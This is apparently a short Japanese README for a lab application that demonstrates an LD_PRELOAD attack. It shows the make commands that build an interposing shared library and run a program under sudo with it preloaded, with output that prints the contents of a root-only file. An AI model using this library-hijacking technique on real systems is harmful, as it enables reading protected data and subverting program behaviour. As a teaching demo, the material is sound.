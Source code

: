 # LD_PRELOAD-Attack

## 概要

LD_PRELOAD攻撃の実験用アプリケーション

rootでしかアクセスできない`important_file`の中身を読み取る

```bash
$ ll ./important_file
-rw-------  1 root      root         30 Aug 11 08:42 important_file
```

## 実験方法

```
$ make attack
gcc -shared -fPIC unrandom.c -o unrandom.so
gcc -o random_num random_num.c
sudo chmod 600 ./important_file
sudo chown root:root ./important_file
sudo LD_PRELOAD=./unrandom.so ./random_num
This is importnat information
16838
This is importnat information
2147456639
This is importnat information
10113
This is importnat information
2147468396
This is importnat information
2147481932
This is importnat information
2147456508
This is importnat information
2147473891
This is importnat information
2147458300
This is importnat information
2147467093
This is importnat information
4086
```

